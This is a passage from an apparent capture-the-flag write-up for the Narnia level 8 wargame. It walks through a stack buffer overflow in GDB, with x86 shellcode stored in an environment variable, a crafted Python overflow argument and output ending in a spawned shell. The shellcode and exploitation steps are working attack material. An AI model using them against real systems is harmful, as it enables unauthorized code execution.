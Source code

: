 Perfect ! Now, as the buffer is too small for a shellcode, we will use an environment variable and return to it. I used the following one :

```bash
export SHELLCODE=$(printf "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80")
```

Now, we'll try to execute it in GDB. Note, that the addresses might have shifted so make sure to repeat the previous steps to fix the addresses of our payload.

```nasm
(gdb) run $(python -c 'print 20 * "A" + "\x47\xd8\xff\xff" + "AAAA" + "CCCC"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x47\xd8\xff\xff" + "AAAA" + "CCCC"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd63c:	0x08048550	0xffffd644	0x41414141	0x41414141
0xffffd64c:	0x41414141	0x41414141	0x41414141	0xffffd847
0xffffd65c:	0x41414141	0x43434343	0xffffd847	0x00000000
0xffffd66c:	0xf7e2a286	0x00000002	0xffffd704	0xffffd710
```

Then, we will retreive our environment variable **SHELLCODE** by repeating the following command `x/s *((char **)environ)`.

```nasm
(gdb) x/s *((char **)environ)
0xffffd861:	"LC_ALL=en_US.UTF-8"

...[removed]...

(gdb) x/s *((char **)environ)
0xffffde75:	"LANG=en_US.UTF-8"
(gdb) x/s *((char **)environ)
0xffffde86:	"OLDPWD=/tmp"
(gdb) x/s *((char **)environ)
0xffffde92:	"SHELLCODE=1\300\061\333\061ə\260\244̀j\vXQh//shh/bin\211\343Q\211\342S\211\341̀"
```

Finally, we complete the payload :

```nasm
(gdb) run $(python -c 'print 20 * "A" + "\x40\xd8\xff\xff" + "AAAA" + "\x92\xde\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x40\xd8\xff\xff" + "AAAA" + "\x92\xde\xff\xff"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16xw $esp
0xffffd63c:	0x08048550	0xffffd644	0x41414141	0x41414141
0xffffd64c:	0x41414141	0x41414141	0x41414141	0xffffd840
0xffffd65c:	0x41414141	0xffffde92	0xffffd840	0x00000000
0xffffd66c:	0xf7e2a286	0x00000002	0xffffd704	0xffffd710
(gdb) conti
Continuing.
AAAAAAAAAAAAAAAAAAAA@���AAAA����@���
process 10478 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "func" in current context.
Error in re-setting breakpoint 1: No symbol "func" in current context.
Error in re-setting breakpoint 1: No symbol "func" in current context.
$ 
```
